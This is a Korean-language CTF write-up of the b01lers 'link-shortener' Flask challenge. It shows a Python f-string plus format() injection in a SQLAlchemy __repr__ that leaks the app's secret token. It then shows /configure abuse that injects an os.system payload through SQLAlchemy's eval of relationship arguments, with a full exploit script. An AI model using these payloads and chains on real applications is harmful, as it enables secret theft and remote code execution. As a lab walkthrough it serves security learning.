

# link-shortener

```
A fast and reliable link shortener service, with a new feature to add private links!
```

## Description

해당 문제에서 제공하는 링크에 접속하면 URL 링크를 단축시킬 수 있는 웹 서비스를 확인할 수 있습니다.


위 메인 페이지(`/`)에서 ‘Create Now!’ 버튼을 클릭하면 URL `/creator` 로 리다이렉션이 되고 이후 입력 폼에 단축 시킬 URL을 입력한 뒤 ‘Shorten’ 버튼을 클릭하면 입력한 URL에 대한 단축 URL을 확인할 수 있습니다.


또한, 위 웹 서비스는 로그인 없이도 URL 단축 기능을 사용할 수 있으며, 로그인 기능을 통해 회원가입을 한 사용자가 자신이 생성한 private URL 목록을 확인할 수도 있습니다.

이제 문제에서 제공하는 소스코드를 통해 웹 서비스의 엔드포인트 처리 로직을 살펴보겠습니다.

해당 웹 서비스는 Flask 프레임워크로 개발되었으며, SQLAlchemy를 사용하여 DB를 연동하고 있습니다.


먼저, 엔드포인트를 살펴 보면 단축된 URL 정보를 조회하는 `/all` 엔드포인트를 확인할 수 있으며,

```python
# main.py
@app.route("/all", methods=['GET'])
def all():
    with Session() as session:
        links = session.query(Links).all()
        for i in range(len(links)):
            links[i] = str(links[i])
        return statusify(True, links)
```

위 코드에서 DB 질의 대상을 지정할 때 클래스`Links` 가 전달되는데, 이는 SQLAlchemy에서 모델(=테이블)을 정의하는 방식으로 해당 클래스는 다음과 같이 정의되어 있습니다.

```python
# models.py
class Links(Base):
    __tablename__ = "links"
    id: Mapped[int] = mapped_column(primary_key=True)
    url: Mapped[str]
    path: Mapped[str]

    def __repr__(self) -> str:
        return f"Link(id={self.id!r}, url={self.url!r}, path={self.path!r})".format(self=self)
```

따라서, 엔드포인트 `/all`을 요청하면 모델 `Links`의 모든 데이터를 조회하고, 각 데이터를 순회 하면서 `str(links[i])`를 호출해 데이터베이스의 레코드들을 문자열로 변환하여 최종적으로 아래와 같이 보여집니다.


이때, 각 레코드를 문자열로 변환하기 위해 `str(links[i])` 가 호출 되었는데, 이는 `Links` 모델에 `__repr__` 함수가 정의되어 있으므로 해당 함수를 호출하게 됩니다.

```python
def __repr__(self) -> str:
		return f"Link(id={self.id!r}, url={self.url!r}, path={self.path!r})".format(self=self)
```

이 `__repr__` 함수의 반환 구문을 살펴보면 `f-string`(`f"..."`) 과 `format(self=self)` 메서드를 동시에 사용하고 있다는 것을 확인할 수 있습니다. 이러한 방식은 `f-string` 을 통해 이미 포매팅된 문자열 내에 `{self.xxx}` 와 같은 포맷 필드가 존재할 경우 `format(self=self)` 에 의해 Format String Injection 취약점이 발생하게 됩니다.

이와 관련된 내용은 다음의 예제 코드를 통해서도 확인하실 수 있습니다.

✅ Format String Injection 취약점 발생 코드 예제: `f-string` + `format(self=self)`

```python

class User:
    def __init__(self, name):
        self.name = name

    def __repr__(self):
        return f"Hello, {self.name}".format(self=self)
    
normal = User("DoTTak")
print(str(normal))
# Hello, DoTTak

vul = User("{self.__init__.__globals__}")
print(str(vul))
# Hello, {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x107ef9000>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/Users/dottak/Desktop/b01lers CTF 2025/links/test.py', '__cached__': None, 'User': <class '__main__.User'>, 'normal': Hello, DoTTak, 'vul': Hello, {...}}
```

따라서, 웹 서비스에서 URL을 단축할 때 URL 입력값에 `{self.__init__.__globals__}` 와 같은 포맷 필드를 포함하고 있다면, 해당 값이 `Links` 모델의 `url` 컬럼에 저장된 후 `/all` 엔드포인트를 통해 조회될 때 `__repr__` 함수가 호출되면서 Format String Injection 취약점이 발생하게 됩니다.

예를 들어, 아래의 URL `https://x.com/{self.__init__.__globals__}` 를 단축 URL로 생성합니다.


이후 URL `/all` 을 요청하면 `self.__init__.globals__` 에 담긴 정보가 노출되는 것을 확인할 수 있습니다.


## Solution

해당 문제의 플래그 위치는 `Dockerfile` 에서 확인할 수 있었습니다.


즉, 플래그 정보가 담긴 파일 `flag.txt` 가 루트 경로(`/`)로 랜덤한 이름을 가지는 텍스트 파일(`.txt`)로 저장되어 있습니다. 이에 RCE를 일으키기 위해 앞서 확인한 Format String Injection 취약점을 이용하여 `__builtins__` 등의 내장 객체에서 `eval`, `exec` 등의 함수를 불러오는 방법을 이용했습니다.

이 중 `eval` 함수를 사용하기 위해 아래의 URL을 단축 URL로 생성해서 해당 함수의 존재 여부를 확인했습니다.

```
https://x.com/{self.__init__.__globals__[__builtins__][eval]}
```


다만, 함수 호출을 위해서는 소괄호(`()`)를 이용해야 하는데 `format` 함수를 사용할 때는 중괄호(`{}`) 안에서 딕셔너리 접근 시 `]` 뒤에는 Dot(`.`) 또는 `]` 만 올 수 있기 때문에 `ValueError: Only '.' or '[' may follow ']' in format field specifier` 에러가 발생하여 500 Error가 발생하게 됩니다.


결과적으로 Format String Injection 취약점만으로 RCE를 발생시키는 것은 불가능 하였고 다른 위치를 확인해봐야합니다.

해당 문제의 엔드포인트 중 `/configure` 의 처리 로직을 보면 랜덤한 값이 저장된 `app.config["TOKEN"]` 와 요청 페이로드 `token` 의 값이 일치할 경우 앱의 설정(`global` 변수 `base_url`, `ukwargs`, `pkwargs`)을 변경할 수 있습니다.

```python
# main.py
app = Flask(__name__)
app.config["TOKEN"] = token_hex(64)
# ... 생략 ...
@app.route("/configure", methods=['POST'])
def configure():
    global base_url
    global ukwargs
    global pkwargs
    data = request.get_json()
    if data and data.get("token") == app.config["TOKEN"]: 
        base_url = data.get("base_url")
        app.config["TOKEN"] = data.get("new_token")
        ukwargs = data.get("ukwargs")
        pkwargs = data.get("pkwargs")
    else:
        return statusify(False, "Invalid Params")
    return statusify(True, "Success")
```

이때, 랜덤한 값이 저장된 `app.config["TOKEN"]` 을 획득하기 위해서 앞서 발견한 Format String Injection 취약점을 이용해 볼 수 있습니다.

Python에서는 `sys.modules` 라는 딕셔너리를 통해 현재 로딩된 모든 모듈이 저장되는데, 이 `app.config["TOKEN"]` 은 `__main__` 모듈에서 초기화되어 있으므로 Format String Injection 취약점을 통해 해당 토큰 값에 접근할 수 있습니다.

이를 위해 우선 `sys` 모듈을 `self` 객체로부터 찾아야 하는데 아래의 스크립트를 디버깅으로 실행하여 확인할 수 있었습니다.

✅ `self` 객체로부터 `sys` 모듈을 검색하는 스크립트

```python
import types
import builtins

def find_sys_from_self(obj, max_depth=5):
    visited = set()
    results = []

    def explore(current_obj, path, depth):
        if depth > max_depth or id(current_obj) in visited:
            return
        visited.add(id(current_obj))

        try:
            keys = dir(current_obj)
        except Exception:
            return

        for key in keys:
            if key.startswith("__") and key.endswith("__"):
                continue  # skip dunder

            try:
                value = getattr(current_obj, key)
                new_path = f"{path}.{key}"

                # 직접 sys 모듈인 경우
                if isinstance(value, types.ModuleType) and value.__name__ == "sys":
                    results.append(new_path)

                # __init__.__globals__["sys"] 경로 탐색
                if hasattr(value, "__init__") and hasattr(value.__init__, "__globals__"):
                    g = value.__init__.__globals__
                    if "sys" in g:
                        results.append(f"{new_path}.__init__.__globals__['sys']")
                    explore(g, f"{new_path}.__init__.__globals__", depth + 1)

                # 재귀적으로 계속 탐색
                explore(value, new_path, depth + 1)

            except Exception:
                continue

    # 시작점: self
    explore(obj, "self", 0)

    return results
```

위 코드는 `self` 객체의 하위에 있는 값들을 조회하며 `sys` 모듈이 있는지 확인하고 그 결과를 반환하는 스크립트입니다.

다음과 같이 `__repr__` 함수의 반환문에 BP를 걸고 URL `/all` 을 요청하면 해당 위치에 브레이크가 걸리게 됩니다. 그럼 좌측 변수 탭에 브레이크가 걸린 현재의 컨텍스트에서 `self` 객체를 확인할 수 있습니다.


이후 디버그 콘솔에 위 스크립트를 실행한 뒤 아래의 코드를 입력하면 `self` 객체로부터 `sys` 모듈에 접근할 수 있는 경로를 확인할 수 있었습니다.

```python
result = find_sys_from_self(self)
print(result[0])
# self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys]
```


이를 토대로 아래의 URL을 단축 URL로 생성한 뒤 URL `/all` 을 요청하면 `sys` 모듈이 조회되는 것을 확인할 수 있습니다.

```python
https://x.com/{self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys]}
```



이후 `main.py` 즉, `__main__` 모듈에 있는 `app.config["TOKEN"]` 값을 확인하기 위해 아래의 URL을 단축 URL로 생성합니다.

```
https://x.com/{self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys].modules[__main__].app.config}
```

그 다음 URL `/all` 을 요청하면 다음과 같이 `app.config["TOKEN"]` 의 값이 출력된 것을 확인할 수 있습니다.


이를 통해 엔드포인트 `/configure` 의 요청 페이로드를 아래의 JSON 데이터로 전송하면 앱의 설정을 변경할 수 있게 됩니다.

```python
{
    "token": "04f54b5f21e1b2a265b8c13e6e4b038e5adee6fc1a5fe03145b87c92adf1f4458cefd15d9d7a024e59d9fb9fdb6241487de66412a223a5f02be334af5fb7250e",
    "base_url": "",
    "ukwargs": {},
    "pkwargs": {}
}
```

이후 위 요청 페이로드의 값들은 다음과 같이 `global` 변수(`base_url`, `ukwargs`, `pkwargs`)의 값으로 변경되는 것을 확인할 수 있습니다.


이때, `ukwargs` 와 `pkwargs` 는 함수 `create_tables` 구현 코드에서 SQLAlchemy의 `relationship` 함수의 인자로 참조되는 것을 알 수 있습니다.


즉, `relationship` 함수의 인자 값(`**ukwargs`, `**pkwargs`)은 이전에 획득한 `app.config["TOKEN"]` 을 활용해 `/configure` 요청으로 값을 직접 조작할 수 있습니다.

또한, `relationship` 함수는 ’Late-Evaluation of Relationship Arguments’ 기능을 지원하는데, 이는 아직 정의되지 않은 테이블(클래스)을 문자열로 지정해 관계를 선언할 수 있게 해주는 기능입니다. 그리고 매핑 과정에서 해당 문자열을 `eval` 함수를 이용해 문자열을 실제 클래스 객체로 동적으로 해석하고 매핑합니다.

> Late-Evaluation of Relationship Arguments
https://docs.sqlalchemy.org/en/20/orm/basic_relationships.html#late-evaluation-of-relationship-arguments
> 

다시 말해, `/configure` 요청 시 `ukwargs` 나 `pkwargs` 값을 조작할 수 있으니 `eval` 함수로 실행될 Python 코드 표현식 문자열을 작성하면 RCE를 수행할 수 있습니다. 여기서 `eval` 함수로 전달되는 `relationship` 함수의 옵션은 다음과 같습니다.

✅ `relationship` 함수의 옵션 중 `eval` 함수로 전달되는 옵션 목록

- [`relationship.order_by`](https://docs.sqlalchemy.org/en/20/orm/relationship_api.html#sqlalchemy.orm.relationship.params.order_by)
- [`relationship.primaryjoin`](https://docs.sqlalchemy.org/en/20/orm/relationship_api.html#sqlalchemy.orm.relationship.params.primaryjoin)
- [`relationship.secondaryjoin`](https://docs.sqlalchemy.org/en/20/orm/relationship_api.html#sqlalchemy.orm.relationship.params.secondaryjoin)
- [`relationship.secondary`](https://docs.sqlalchemy.org/en/20/orm/relationship_api.html#sqlalchemy.orm.relationship.params.secondary)
- [`relationship.remote_side`](https://docs.sqlalchemy.org/en/20/orm/relationship_api.html#sqlalchemy.orm.relationship.params.remote_side)
- [`relationship.foreign_keys`](https://docs.sqlalchemy.org/en/20/orm/relationship_api.html#sqlalchemy.orm.relationship.params.foreign_keys)
- [`relationship._user_defined_foreign_keys`](https://docs.sqlalchemy.org/en/20/orm/relationship_api.html#sqlalchemy.orm.relationship.params._user_defined_foreign_keys)

참고로 주의할 점은 함수 `create_tables`는 실행 시 필요한 테이블이 존재하지 않을 경우에만 `relationship` 함수를 호출하여 동적으로 테이블을 생성하는 역할을 합니다.

```python
# main.py
def create_tables():
    inspector = inspect(engine)
    if 'users' not in inspector.get_table_names(): # 테이블 존재 확인
        Users.private_links = relationship("PrivateLinks", **ukwargs)
        Users.__table__.create(engine)
    if 'privatelinks' not in inspector.get_table_names(): # 테이블 존재 확인
        PrivateLinks.users = relationship("Users", **pkwargs)
        PrivateLinks.__table__.create(engine)
```

이 `create_tables` 함수는 아래와 같이 URL `/`, `/register` 를 요청할 때 마다 호출되므로 기존에 테이블이 생성된 상태에서는 `ukwargs` 또는 `pkwargs` 에 RCE 페이로드를 집어 넣어도 동작되지 않습니다.


따라서 웹 서비스가 초기화 된 상태(= 데이터베이스 초기화)에서 RCE를 수행해야 하며 최종적으로 플래그 획득은 아래의 과정을 수행해야 합니다.

✅ 플래그 획득 과정

1. 웹 서비스 초기화(= 데이터베이스 초기화)
2. `app.config["TOKEN"]`(이하, 토큰)을 조회하기 위해 아래의 Format String Injection 취약점이 발생하는 URL을 단축 URL로 생성
    
    ```
    https://x.com/{self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys].modules[__main__].app.config}
    ```
    
3. URL `/all` 요청을 통해 토큰 값 획득
4. 획득한 토큰 값과 `ukwargs`, `pkwargs` 값에 RCE 페이로드를 삽입한 아래의 요청 페이로드를 URL `/configure` 에 요청(참고로, `pkwargs` 는 로그인한 사용자의 링크 목록과 관련된 값 이므로 `ukwargs` 만을 사용했습니다.)
    
    ```json
    {
      "token": "획득한 토큰 값",
      "base_url": "",
      "ukwargs": {
        "order_by": "__import__('os').system('cp /*.txt templates/sponsors.html')"
      },
      "pkwargs": {}
    }
    ```
    
    위 코드의 실행 명령어 `cp /*.txt templates/sponsors.html` 는 통해 루트 경로(`/`)에 있는 플래그가 담긴 텍스트 파일(`.txt`)을 엔드포인트 `/sponsors` 의 템플릿 파일인 `templates/sponsors.html` 로 복사하는 명령어 입니다. 즉, RCE가 성공적으로 실행되면 엔드포인트 `/sponsors` 에 접속하여 플래그 값을 확인할 수 있습니다.
    
5. 이후 RCE 페이로드가 담긴 `ukwargs` 가 `relationship` 함수의 인자로 전달되도록 URL `/` 또는 `/register` 를 요청하여 `create_tables` 함수를 호출

결과적으로 위 과정을 수행하는 아래의 스크립트를 실행하면 플래그를 획득할 수 있습니다.

✅ Flag 획득 스크립트

```python
import re
import requests

VUL_FORMAT_STRING = "{self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys].modules[__main__].app.config}"
RCE_EVAL_PAYLOAD = "__import__('os').system('cp /*.txt templates/sponsors.html')"

URL = "https://link-shortener-f439b7ad7c906b78.instancer.b01lersc.tf"

print(f'[*] Create a short link...')
requests.get(f'{URL}/create?url=https://x.com/{VUL_FORMAT_STRING}')
match = re.search(r"'TOKEN': '(\w+)'", requests.get(f'{URL}/all').text)
if match:
    token = match.group(1)
    print(f'[*] TOKEN: {token}')

    print(f'[*] Request /configure with RCE Payload')
    requests.post(f'{URL}/configure', json={
        "token": token,
        "base_url": "",
        "ukwargs": 
            {
                "order_by": RCE_EVAL_PAYLOAD
            }
    })

    print(f'[*] execute for create_tables()')
    requests.get(f'{URL}/register')
    
    print(f'[*] get flag')
    flag = requests.get(f'{URL}/sponsors').text
    print(f'[*] Flag: {flag}')
else:
    print('[*] TOKEN: not found...')
```

